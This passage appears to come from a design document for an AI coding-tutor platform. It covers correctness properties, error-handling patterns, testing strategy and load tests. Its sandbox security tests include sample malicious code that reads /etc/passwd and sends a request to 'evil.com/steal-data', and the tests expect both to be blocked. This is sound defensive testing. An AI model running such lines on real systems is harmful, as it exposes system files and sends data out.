*For any* milestone completion, the System should create a Git commit capturing the project state at that point.
**Validates: Requirements 13.2**

**Property 64: GitHub push capability**
*For any* project, when the user requests GitHub push, the code should be pushed to their authenticated GitHub account.
**Validates: Requirements 13.3**

**Property 65: Meaningful commit messages**
*For any* auto-generated commit, the commit message should describe the changes made (not generic messages like "update").
**Validates: Requirements 13.4**

**Property 66: Branch creation support**
*For any* project, the System should support creating new Git branches for experimental work.
**Validates: Requirements 13.5**

**Property 67: Conflict resolution guidance**
*For any* Git conflict, the System should provide step-by-step guidance for resolving the conflict.
**Validates: Requirements 13.6**

### Analytics Properties

**Property 68: Weak area highlighting**
*For any* user viewing analytics, areas where performance is below the user's average should be visually highlighted.
**Validates: Requirements 14.4**

**Property 69: Weekly summary delivery**
*For any* active user, a learning summary should be delivered via email or notification once per week.
**Validates: Requirements 14.6**

### Explainable AI Properties

**Property 70: Suggestion reasoning inclusion**
*For any* AI suggestion, a brief explanation of the reasoning should be included with the suggestion.
**Validates: Requirements 15.1**

**Property 71: Detailed explanation on request**
*For any* suggestion with "explain more" action, clicking it should provide detailed rationale with examples.
**Validates: Requirements 15.2**

**Property 72: Principle and pattern citation**
*For any* suggestion based on programming principles or patterns, the relevant principle/pattern should be cited by name.
**Validates: Requirements 15.3**

**Property 73: Trade-off explanation for alternatives**
*For any* set of alternative approaches, the explanation should include trade-offs (performance, complexity, maintainability) between them.
**Validates: Requirements 15.4**

**Property 74: Documentation linking**
*For any* explanation referencing external concepts, links to relevant documentation or learning resources should be provided.
**Validates: Requirements 15.5**

### Code Execution Properties

**Property 75: Sandboxed execution isolation**
*For any* code execution, the code should run in an isolated sandbox without access to the host system or other users' data.
**Validates: Requirements 16.1**

**Property 76: Output display performance**
*For any* code execution, output should be displayed within 2 seconds of execution completion.
**Validates: Requirements 16.2**

**Property 77: Comprehensive output capture**
*For any* code execution, all console logs, errors, and warnings should be captured and displayed to the user.
**Validates: Requirements 16.3**

**Property 78: Infinite loop protection**
*For any* code execution, if execution time exceeds 5 seconds, the process should be terminated automatically.
**Validates: Requirements 16.4**

**Property 79: Interactive I/O support**
*For any* program requiring user input, the System should support providing input and displaying output interactively.
**Validates: Requirements 16.5**

**Property 80: Test runner with result indicators**
*For any* unit test execution, the test runner should display pass/fail indicators for each test case.
**Validates: Requirements 16.6**

### Subscription and Payment Properties

**Property 81: Payment processing integration**
*For any* subscription purchase, payment should be processed through Razorpay or Stripe with proper error handling.
**Validates: Requirements 17.2**

**Property 82: Free trial provision**
*For any* new user registration, a 7-day free trial should be automatically activated.
**Validates: Requirements 17.3**

**Property 83: Graceful access restriction on expiry**
*For any* expired subscription, premium features should be restricted while preserving access to user's existing projects and data.
**Validates: Requirements 17.4**

**Property 84: Renewal reminder timing**
*For any* active subscription, a payment reminder should be sent exactly 3 days before the renewal date.
**Validates: Requirements 17.5**

**Property 85: Immediate cancellation effect**
*For any* subscription cancellation, premium feature access should be revoked immediately upon cancellation confirmation.
**Validates: Requirements 17.6**

### Authentication Properties

**Property 86: Email verification requirement**
*For any* new user registration, full platform access should be restricted until email address is verified.
**Validates: Requirements 18.2**

**Property 87: Password requirement enforcement**
*For any* password creation or change, the password must meet requirements (minimum 8 characters, mixed case, numbers) or be rejected.
**Validates: Requirements 18.3**

**Property 88: Session duration**
*For any* successful login, the created session should remain valid for 7 days unless explicitly logged out.
**Validates: Requirements 18.4**

**Property 89: Profile update capability**
*For any* user profile field (name, preferred language, etc.), the user should be able to update it and have the change persist.
**Validates: Requirements 18.5**

**Property 90: Password reset via email**
*For any* password reset request, a verification email should be sent and password reset should only succeed with valid verification token.
**Validates: Requirements 18.6**

### Performance Properties

**Property 91: Interaction response time**
*For any* user interaction under normal load (< 500 concurrent users), the System should respond within 1 second.
**Validates: Requirements 19.1**

**Property 92: Progressive response streaming**
*For any* code generation request, responses should be streamed progressively with visible updates rather than waiting for complete generation.
**Validates: Requirements 19.2**

**Property 93: Redis caching utilization**
*For any* frequently accessed data (user sessions, project metadata), the System should cache it in Redis to reduce database load.
**Validates: Requirements 19.3**

**Property 94: Concurrent user capacity**
*For any* load scenario with up to 1000 concurrent users, response times should not degrade beyond 2x normal response time.
**Validates: Requirements 19.4**

**Property 95: Horizontal scaling behavior**
*For any* load increase beyond baseline capacity, the System should automatically scale horizontally by spawning additional serverless function instances.
**Validates: Requirements 19.5**

### Security and Privacy Properties

**Property 96: TLS encryption for data in transit**
*For any* network communication between client and server, TLS 1.3 should be used for encryption.
**Validates: Requirements 20.1**

**Property 97: AES-256 encryption for data at rest**
*For any* sensitive data stored in the database (passwords, API keys), AES-256 encryption should be applied.
**Validates: Requirements 20.2**

**Property 98: No unauthorized code sharing**
*For any* user's code, it should not be shared with third parties unless the user has explicitly granted consent.
**Validates: Requirements 20.3**

**Property 99: Audio data deletion after transcription**
*For any* voice input, raw audio data should be deleted immediately after transcription completes.
**Validates: Requirements 20.4**

**Property 100: Data export and deletion capability**
*For any* user data export or deletion request, the System should provide all user data in portable format or delete it within 30 days.
**Validates: Requirements 20.6**

### Offline Capability Properties

**Property 101: Offline code editing**
*For any* offline state, the IDE should continue to allow code editing with changes saved to local storage.
**Validates: Requirements 21.2**

**Property 102: Request queuing when offline**
*For any* AI request made while offline, the request should be queued and automatically processed when connectivity is restored.
**Validates: Requirements 21.3**

**Property 103: Offline project access**
*For any* project previously loaded while online, it should remain accessible for viewing and editing when offline.
**Validates: Requirements 21.4**

**Property 104: Automatic sync on reconnection**
*For any* changes made while offline, they should automatically sync to the server when connectivity is restored.
**Validates: Requirements 21.5**

### Accessibility Properties

**Property 105: Keyboard navigation completeness**
*For any* feature in the platform, it should be fully operable using only keyboard navigation (no mouse required).
**Validates: Requirements 22.1**

**Property 106: Screen reader ARIA support**
*For any* UI element, appropriate ARIA labels and roles should be present for screen reader compatibility.
**Validates: Requirements 22.2**

**Property 107: Text size scaling**
*For any* text content, adjusting browser text size from 100% to 200% should scale the text without breaking layout or causing overlap.
**Validates: Requirements 22.4**

**Property 108: Visual feedback for voice input**
*For any* voice input activity, visual indicators (waveform, status text) should be displayed for users who cannot hear audio feedback.
**Validates: Requirements 22.5**

### Content Moderation Properties

**Property 109: Content scanning execution**
*For any* user-generated content (code, comments, project descriptions), the System should scan it for inappropriate language or malicious patterns.
**Validates: Requirements 23.1**

**Property 110: Harmful content flagging**
*For any* content detected as harmful by scanning, it should be flagged for review and the user notified.
**Validates: Requirements 23.2**

**Property 111: Malicious code pattern blocking**
*For any* code execution request containing known malicious patterns (file system access, network calls in sandbox), execution should be blocked.
**Validates: Requirements 23.3**

**Property 112: API rate limiting enforcement**
*For any* user or IP address, API calls should be rate-limited to prevent abuse (e.g., 100 requests per minute).
**Validates: Requirements 23.4**

**Property 113: Moderation audit logging**
*For any* moderation action (content flagging, user warning, account suspension), an audit log entry should be created with timestamp and details.
**Validates: Requirements 23.6**

### Multi-Language Code Support Properties

**Property 114: Language-specific tooling configuration**
*For any* selected programming language, the System should configure appropriate linters, formatters, and build tools for that language.
**Validates: Requirements 24.2**

**Property 115: Language-specific best practices**
*For any* code generation in a specific language, the generated code should follow that language's idiomatic patterns and best practices.
**Validates: Requirements 24.3**

**Property 116: Multi-language project support**
*For any* full-stack project, the System should support using different languages for frontend and backend components.
**Validates: Requirements 24.4**

**Property 117: Language-isolated execution environments**
*For any* code execution, each programming language should run in its own isolated environment with appropriate runtime and dependencies.
**Validates: Requirements 24.5**

**Property 118: Language-specific resource provision**
*For any* selected language, the System should provide links to documentation and learning resources specific to that language.
**Validates: Requirements 24.6**

### API and Extensibility Properties

**Property 119: Webhook notification delivery**
*For any* configured webhook and triggering project event, a webhook notification should be sent to the configured URL within 5 seconds.
**Validates: Requirements 25.2**

**Property 120: Custom agent plugin loading**
*For any* custom agent plugin following the defined interface, the System should be able to load and execute it.
**Validates: Requirements 25.3**

**Property 121: API rate limiting and authentication**
*For any* API request, rate limits should be enforced and authentication should be required for protected endpoints.
**Validates: Requirements 25.4**

**Property 122: OAuth 2.0 integration support**
*For any* third-party integration, the System should support OAuth 2.0 authorization flow for secure access delegation.
**Validates: Requirements 25.6**


## Error Handling

### Error Classification

**User Errors**:
- Invalid input (empty fields, malformed data)
- Authentication failures
- Permission violations
- Resource not found

**System Errors**:
- Service unavailability
- Database connection failures
- External API failures (LLM, GitHub, deployment providers)
- Resource exhaustion (memory, CPU, rate limits)

**Agent Errors**:
- LLM generation failures
- Timeout during long operations
- Invalid agent responses
- Agent coordination failures

### Error Handling Strategies

**Graceful Degradation**:
```typescript
class GracefulDegradation {
  async getAISuggestion(code: string): Promise<Suggestion> {
    try {
      // Try primary LLM
      return await this.primaryLLM.getSuggestion(code);
    } catch (error) {
      // Fall back to secondary LLM
      try {
        return await this.secondaryLLM.getSuggestion(code);
      } catch (fallbackError) {
        // Return basic suggestion without AI
        return this.getBasicSuggestion(code);
      }
    }
  }
}
```

**Retry with Exponential Backoff**:
```typescript
async function retryWithBackoff<T>(
  operation: () => Promise<T>,
  maxRetries: number = 3,
  baseDelay: number = 1000
): Promise<T> {
  for (let attempt = 0; attempt < maxRetries; attempt++) {
    try {
      return await operation();
    } catch (error) {
      if (attempt === maxRetries - 1) throw error;
      
      const delay = baseDelay * Math.pow(2, attempt);
      await sleep(delay);
    }
  }
  throw new Error('Max retries exceeded');
}
```

**Circuit Breaker Pattern**:
```typescript
class CircuitBreaker {
  private failureCount: number = 0;
  private lastFailureTime: number = 0;
  private state: 'closed' | 'open' | 'half-open' = 'closed';
  
  async execute<T>(operation: () => Promise<T>): Promise<T> {
    if (this.state === 'open') {
      if (Date.now() - this.lastFailureTime > 60000) {
        this.state = 'half-open';
      } else {
        throw new Error('Circuit breaker is open');
      }
    }
    
    try {
      const result = await operation();
      this.onSuccess();
      return result;
    } catch (error) {
      this.onFailure();
      throw error;
    }
  }
  
  private onSuccess(): void {
    this.failureCount = 0;
    this.state = 'closed';
  }
  
  private onFailure(): void {
    this.failureCount++;
    this.lastFailureTime = Date.now();
    
    if (this.failureCount >= 5) {
      this.state = 'open';
    }
  }
}
```

**User-Friendly Error Messages**:
```typescript
interface ErrorResponse {
  code: string;
  message: string;
  userMessage: string;
  suggestions: string[];
  retryable: boolean;
}

function formatError(error: Error): ErrorResponse {
  const errorMap = {
    'RATE_LIMIT_EXCEEDED': {
      code: 'RATE_LIMIT_EXCEEDED',
      message: error.message,
      userMessage: 'You\'ve made too many requests. Please wait a moment.',
      suggestions: ['Wait 60 seconds before trying again', 'Upgrade to premium for higher limits'],
      retryable: true
    },
    'LLM_TIMEOUT': {
      code: 'LLM_TIMEOUT',
      message: error.message,
      userMessage: 'The AI is taking longer than expected. Let\'s try again.',
      suggestions: ['Simplify your request', 'Try again in a moment'],
      retryable: true
    },
    'INVALID_CODE': {
      code: 'INVALID_CODE',
      message: error.message,
      userMessage: 'The code has syntax errors that need to be fixed.',
      suggestions: ['Check for missing brackets or semicolons', 'Ask the AI tutor for help'],
      retryable: false
    }
  };
  
  return errorMap[error.name] || {
    code: 'UNKNOWN_ERROR',
    message: error.message,
    userMessage: 'Something went wrong. Our team has been notified.',
    suggestions: ['Try refreshing the page', 'Contact support if the issue persists'],
    retryable: true
  };
}
```

### Error Recovery Mechanisms

**Automatic State Recovery**:
- Save editor state to IndexedDB every 30 seconds
- On crash/reload, restore last saved state
- Offer user option to discard or keep recovered state

**Transaction Rollback**:
- Wrap database operations in transactions
- Rollback on failure to maintain consistency
- Log rollback events for debugging

**Compensation Actions**:
- If deployment fails, clean up partial resources
- If payment fails, release reserved resources
- If collaboration session breaks, save local changes

### Monitoring and Alerting

**Error Tracking**:
```typescript
interface ErrorLog {
  id: string;
  timestamp: Date;
  userId: string;
  errorType: string;
  errorMessage: string;
  stackTrace: string;
  context: Record<string, any>;
  severity: 'low' | 'medium' | 'high' | 'critical';
}

class ErrorTracker {
  async logError(error: Error, context: Record<string, any>): Promise<void> {
    const errorLog: ErrorLog = {
      id: generateId(),
      timestamp: new Date(),
      userId: context.userId,
      errorType: error.name,
      errorMessage: error.message,
      stackTrace: error.stack || '',
      context,
      severity: this.determineSeverity(error)
    };
    
    // Log to database
    await this.db.errors.insert(errorLog);
    
    // Send to monitoring service (e.g., Sentry)
    await this.monitoring.captureException(error, context);
    
    // Alert on critical errors
    if (errorLog.severity === 'critical') {
      await this.alerting.sendAlert(errorLog);
    }
  }
}
```

## Testing Strategy

### Dual Testing Approach

CodeForge AI requires both unit testing and property-based testing for comprehensive coverage:

**Unit Tests**: Focus on specific examples, edge cases, and integration points
- Specific user flows (registration, project creation, deployment)
- Edge cases (empty inputs, maximum lengths, boundary values)
- Error conditions (network failures, invalid data, permission errors)
- Integration between components (API endpoints, database operations)

**Property-Based Tests**: Verify universal properties across all inputs
- Universal correctness properties from the design document
- Randomized input generation for comprehensive coverage
- Each property test runs minimum 100 iterations
- Tests validate behavior holds for all valid inputs, not just examples

### Property-Based Testing Configuration

**Library Selection**: 
- JavaScript/TypeScript: `fast-check`
- Python: `hypothesis`

**Test Configuration**:
```typescript
import fc from 'fast-check';

// Example property test
describe('Voice Interface Properties', () => {
  it('Property 1: Voice capture language support', () => {
    // Feature: codeforge-ai, Property 1: Voice capture language support
    fc.assert(
      fc.property(
        fc.record({
          language: fc.constantFrom('hi', 'ta'),
          audioData: fc.uint8Array({ minLength: 1000, maxLength: 10000 })
        }),
        async (input) => {
          const result = await voiceInterface.capture(input.audioData, input.language);
          expect(result.success).toBe(true);
          expect(result.error).toBeUndefined();
        }
      ),
      { numRuns: 100 }
    );
  });
  
  it('Property 2: Transcription performance', () => {
    // Feature: codeforge-ai, Property 2: Transcription performance
    fc.assert(
      fc.property(
        fc.uint8Array({ minLength: 1000, maxLength: 10000 }),
        async (audioData) => {
          const startTime = Date.now();
          await voiceInterface.transcribe(audioData);
          const duration = Date.now() - startTime;
          expect(duration).toBeLessThan(2000);
        }
      ),
      { numRuns: 100 }
    );
  });
});
```

### Test Organization

**Unit Test Structure**:
```
tests/
├── unit/
│   ├── voice/
│   │   ├── voiceRecorder.test.ts
│   │   └── transcription.test.ts
│   ├── agents/
│   │   ├── supervisor.test.ts
│   │   ├── planner.test.ts
│   │   ├── coder.test.ts
│   │   └── tutor.test.ts
│   ├── editor/
│   │   ├── monacoIntegration.test.ts
│   │   └── collaboration.test.ts
│   ├── curriculum/
│   │   ├── milestoneGeneration.test.ts
│   │   └── adaptiveLearning.test.ts
│   └── deployment/
│       ├── vercel.test.ts
│       └── awsLambda.test.ts
├── property/
│   ├── voice.property.test.ts
│   ├── agents.property.test.ts
│   ├── codeGeneration.property.test.ts
│   ├── learning.property.test.ts
│   └── deployment.property.test.ts
├── integration/
│   ├── endToEnd.test.ts
│   ├── apiEndpoints.test.ts
│   └── database.test.ts
└── e2e/
    ├── userJourney.test.ts
    └── collaboration.test.ts
```

### Testing Priorities

**Critical Path Testing** (Must have 100% coverage):
1. Authentication and authorization
2. Payment processing
3. Code execution sandbox
4. Data encryption and privacy
5. Agent orchestration core logic

**High Priority Testing** (Target 90% coverage):
1. Voice input processing
2. Code generation
3. Deployment workflows
4. Real-time collaboration
5. Learning curriculum generation

**Medium Priority Testing** (Target 70% coverage):
1. Analytics and reporting
2. UI components
3. Notification systems
4. Search and filtering

### Test Data Management

**Fixtures**:
```typescript
// Test fixtures for consistent test data
export const testFixtures = {
  users: {
    beginner: {
      id: 'user-beginner-1',
      skillLevel: 'beginner',
      preferredLanguage: 'hi'
    },
    intermediate: {
      id: 'user-intermediate-1',
      skillLevel: 'intermediate',
      preferredLanguage: 'ta'
    }
  },
  projects: {
    simple: {
      name: 'Todo App',
      type: 'web-app',
      language: 'javascript'
    },
    complex: {
      name: 'E-commerce Platform',
      type: 'web-app',
      language: 'typescript'
    }
  }
};
```

**Generators for Property Tests**:
```typescript
// Custom generators for domain-specific data
const arbitraries = {
  projectDescription: fc.string({ minLength: 10, maxLength: 500 }),
  
  codeSnippet: fc.oneof(
    fc.constant('function hello() { return "world"; }'),
    fc.constant('const x = 42;'),
    fc.constant('class User { constructor(name) { this.name = name; } }')
  ),
  
  hindiText: fc.stringOf(fc.constantFrom(
    'क', 'ख', 'ग', 'घ', 'च', 'छ', 'ज', 'झ', ' '
  )),
  
  tamilText: fc.stringOf(fc.constantFrom(
    'அ', 'ஆ', 'இ', 'ஈ', 'உ', 'ஊ', 'எ', 'ஏ', ' '
  ))
};
```

### Continuous Integration

**CI Pipeline**:
1. Lint and format check
2. Unit tests (parallel execution)
3. Property tests (100 iterations each)
4. Integration tests
5. E2E tests (critical paths only)
6. Coverage report generation
7. Security scanning (npm audit, Snyk)
8. Performance benchmarks

**Test Execution Time Targets**:
- Unit tests: < 5 minutes
- Property tests: < 10 minutes
- Integration tests: < 5 minutes
- E2E tests: < 15 minutes
- Total CI pipeline: < 30 minutes

### Performance Testing

**Load Testing Scenarios**:
```typescript
// Using k6 for load testing
import http from 'k6/http';
import { check, sleep } from 'k6';

export const options = {
  stages: [
    { duration: '2m', target: 100 },  // Ramp up to 100 users
    { duration: '5m', target: 100 },  // Stay at 100 users
    { duration: '2m', target: 500 },  // Ramp up to 500 users
    { duration: '5m', target: 500 },  // Stay at 500 users
    { duration: '2m', target: 1000 }, // Ramp up to 1000 users
    { duration: '5m', target: 1000 }, // Stay at 1000 users
    { duration: '2m', target: 0 },    // Ramp down
  ],
  thresholds: {
    http_req_duration: ['p(95)<1000'], // 95% of requests under 1s
    http_req_failed: ['rate<0.01'],    // Less than 1% failures
  },
};

export default function () {
  const response = http.post('https://api.codeforge.ai/v1/code/generate', {
    prompt: 'Create a React component',
    language: 'javascript'
  });
  
  check(response, {
    'status is 200': (r) => r.status === 200,
    'response time < 1s': (r) => r.timings.duration < 1000,
  });
  
  sleep(1);
}
```

### Security Testing

**Security Test Categories**:
1. **Authentication**: Test JWT validation, session management, OAuth flows
2. **Authorization**: Test role-based access control, resource ownership
3. **Input Validation**: Test SQL injection, XSS, command injection
4. **Encryption**: Verify TLS configuration, data-at-rest encryption
5. **Rate Limiting**: Test rate limit enforcement, DDoS protection
6. **Sandbox Escape**: Test code execution sandbox isolation

**Example Security Test**:
```typescript
describe('Security: Code Execution Sandbox', () => {
  it('should prevent file system access', async () => {
    const maliciousCode = `
      const fs = require('fs');
      fs.readFileSync('/etc/passwd');
    `;
    
    const result = await codeExecutor.execute(maliciousCode);
    expect(result.success).toBe(false);
    expect(result.error).toContain('Module not allowed');
  });
  
  it('should prevent network access', async () => {
    const maliciousCode = `
      const http = require('http');
      http.get('http://evil.com/steal-data');
    `;
    
    const result = await codeExecutor.execute(maliciousCode);
    expect(result.success).toBe(false);
    expect(result.error).toContain('Network access denied');
  });
});
```

### Test Coverage Goals

**Overall Coverage Target**: 85%
- Critical paths: 100%
- Core business logic: 90%
- UI components: 70%
- Utility functions: 80%

**Coverage Enforcement**:
```json
{
  "jest": {
    "coverageThreshold": {
      "global": {
        "branches": 85,
        "functions": 85,
        "lines": 85,
        "statements": 85
      },
      "./src/agents/": {
        "branches": 90,
        "functions": 90,
        "lines": 90,
        "statements": 90
      },
      "./src/security/": {
        "branches": 100,
        "functions": 100,
        "lines": 100,
        "statements": 100
      }
    }
  }
}
```
